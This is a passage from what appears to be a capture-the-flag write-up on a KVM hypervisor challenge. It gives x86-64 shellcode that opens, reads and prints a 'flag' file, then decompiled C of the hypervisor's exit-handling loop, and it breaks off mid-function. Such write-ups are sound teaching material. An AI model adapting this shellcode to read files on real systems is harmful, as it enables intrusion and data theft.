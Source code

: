 Use `nasm source.asm -p shellcode`
```assembly
BITS 64

times 40 nop

; open flag
push   0x67616c66
push   0x2
pop    rax
mov    rdi,rsp
xor    rsi, rsi
syscall

; read flag
mov    r9,rax
xor    rax,rax
mov    rdi,r9
mov    rsi,rsp
xor    rdx,rdx
mov    dl,0x40
syscall

; write flag
xor    rax,rax
inc    al
xor    rdi,rdi
inc    rdi
mov    rsi,rsp
xor    rdx,rdx
mov    dl,0x40
syscall
```

### Level 2

Now, we need to discuss the implementation of **hypervisor**:
```c
void __fastcall sub_171A(__int64 a1)
{
  __int64 v1; // rax

  while ( 1 )
  {
    ioctl(*(_DWORD *)(a1 + 16), 0xAE80uLL, 0LL);
    v1 = *(unsigned int *)(*(_QWORD *)(a1 + 24) + 8LL);
    switch ( (unsigned int)off_2CB4 )
    {
      case 2u:
        if ( *(_WORD *)(*(_QWORD *)(a1 + 24) + 34LL) >= 0 )
        {
          fprintf(stderr, "Unhandled I/O port: 0x%x\n", *(unsigned __int16 *)(*(_QWORD *)(a1 + 24) + 34LL));
          exit(1);
        }
        if ( (signed int)sub_1C7E(*(_WORD *)(*(_QWORD *)(a1 + 24) + 34LL), a1) < 0 )
        {
          fwrite("Hypercall failed\n", 1uLL, 0x11uLL, stderr);
          exit(1);
        }
        return;
      case 5u:
        fwrite("KVM_EXIT_HLT\n", 1uLL, 0xDuLL, stderr);
        exit(0);
```